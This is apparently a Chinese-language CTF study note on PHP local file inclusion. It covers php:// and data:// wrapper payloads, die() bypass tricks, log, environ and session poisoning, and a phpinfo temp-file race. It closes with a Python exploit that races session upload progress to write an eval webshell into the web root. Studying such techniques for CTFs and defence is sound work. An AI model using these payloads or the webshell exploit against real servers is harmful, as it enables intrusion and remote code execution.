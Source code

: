 ```yaml
---
title: 文件包含基础
date: 2022-09-13 22:40:59
tags:
- 文件包含
categories:
- web
- 笔记
---
```


## 常见函数

+ include()：仅包含, 包含失败不影响执行
+ require()：必须包含成功，有报错会后面不执行
+ include_once()：包含一次 ，再次包含不重复包含
+ require_once()：包含一次 ，再次包含不重复包含

## 伪协议利用

### **常见伪协议**

```
file:///etc/passwd
file://../../../f1ag
file://C:\Windows\System32\drivers\etc\hosts

php://input
php://filter/resource=1.php

读源码: php://filter/read=convert.base64-encode/resource=flag.php
写文件: php://filter/write=convert.base64-decode/resource=shell.php
（还有rot13 strip_tags...）

data://text/plain,<?php phpinfo();?>
data://text/plain,"<?php phpinfo();?>"
可用简写
data:,<?=phpinfo();
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
```

### die()绕过

```php
$file = $_GET['file'];
$content = $_POST['content'];
file_put_contents($file,"<?php die();?>".$content);
```

方法1: rot13

```php
file=php://filter/string.rot13/resource=shell.php
content=<?cuc cucvasb();?>

shell.php 内容: <?cuc qvr();?><?php phpinfo();>
```

方法2: base64

```php
file=php://filter/convert.base64-decode/resource=shell.php
content=aaPD9waHAgcGhwaW5mbygpOz8%2b

shell.php内容： �]��<?php phpinfo();?>
    
//原理 base64 8位一解码 且只解码a-zA-Z0-9+/ 
//前面可解码内容有phpdie 六个字符 
//添加aa在最前面保证后面的shell编码可以正常被解码
```

方法3: strip_tags

```php
file=php://filter/string.strip_tags|convert.base64-decode/resource=shell2.php
content=PD9waHAgcGhwaW5mbygpOz8%2b
```

## 常见利用

### 文件名可控

文件名可控,即可控制协议头

```php
<?php
$file=$_GET['file'];
include $file.".php";
```

### 后缀可控

考虑路径跳转

### 日志文件包含

+ nginx: `/var/log/nginx/access.log`
+ apache2: `/var/log/apache/access.log`

在不会被url编码的位置传入`<?php phpinfo();?>` 例如`User-Agent`

然后包含日志文件即可

### 临时文件包含

php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临时文件被删除之前，利用竞争即可包含该临时文件。

由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有65535中不同的文件名，所以这个方法是可行的。

另一种方法是配合phpinfo页面的php variables，可以直接获取到上传文件的存储路径和临时文件名，直接包含即可。这个方法可以参考

[LFI With PHPInfo Assistance](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

```
https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py

利用方法简述
在给PHP发送POST数据包时，如果数据包里包含文件区块，无论你访问的代码中有没有处理文件上传的逻辑，PHP都会将这个文件保存成一个临时文件（通常是/tmp/php[6个随机字符]），文件名可以在$_FILES变量中找到。这个临时文件，在请求结束后就会被删除。

同时，因为phpinfo页面会将当前请求上下文中所有变量都打印出来，所以我们如果向phpinfo页面发送包含文件区块的数据包，则即可在返回包里找到$_FILES变量的内容，自然也包含临时文件名。

在文件包含漏洞找不到可利用的文件时，即可利用这个方法，找到临时文件名，然后包含之。

但文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行getshell。在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。

这个时候就需要用到条件竞争，具体流程如下：

发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell
```

![image-20220915001356512](https://my-picgo-bucket.oss-cn-nanjing.aliyuncs.com/img/image-20220915001356512.png)

### 包含/pros/self/environ

proc/self/environ中会保存user-agent头，如果在user-agent中插入php代码，则php代码会被写入到environ中，之后再包含它，即可。

利用条件：

+ php以cgi方式运行，这样environ才会保持UA头。
+ environ文件存储位置已知，且environ文件可读。

参考文章：[proc / self / environ Injection](http://websecuritylog.blogspot.com/2010/06/procselfenviron-injection.html)

### session文件包含和upload_progress

session默认路径

```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```

> 如果没做过设置，session文件默认是在/var/lib/php/sessions/目录下，文件名是sess_加上你的sessionID字段。（没有权限）而一般情况下，phpmyadmin的session文件会设置在/tmp目录下，需要在php.ini里把session.auto_start置为1，把session.save_path目录设置为/tmp。

+ 几个相关配置

  ![image-20220915004108139](https://my-picgo-bucket.oss-cn-nanjing.aliyuncs.com/img/image-20220915004108139.png)

+ `session.auto_start`：如果开启这个选项，则PHP在接收请求的时候会**自动初始化Session**，不再需要执行session_start()。但默认情况下，也是通常情况下，这个选项都是**默认关闭**的。

  `session.upload_progress.cleanup = on`：表示当文件上传结束后，php将会立即清空对应session文件中的内容。该选项**默认开启**

  `session.use_strict_mode`：默认情况下，该选项的值是0，此时用户可以自己定义Session ID。

参考文章: [浅谈 SESSION_UPLOAD_PROGRESS 的利用](https://cloud.tencent.com/developer/article/2035863)

exp如下

```python
import requests
import threading
session = requests.session()
sess = 'xxxx'
url = ""


data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php echo "success";file_put_contents("/var/www/html/1.php","<?php eval(\\$_POST[1]);?>");?>'
}
file = {
    'file': 'xxxx'
}
cookies = {
    'PHPSESSID': sess
}


def write():
    while True:
        r = session.post(url, data=data1, files=file, cookies=cookies)


def read():
    while True:
        r = session.get(url+"?file=../../../../../../../tmp/sess_ctfshow")
        if 'success' in r.text:
            print("shell 地址为："+url+"1.php")
            exit()


threads = [threading.Thread(target=write),
           threading.Thread(target=read)]
for t in threads:
    t.start()
```

### pear文件包含

待填坑




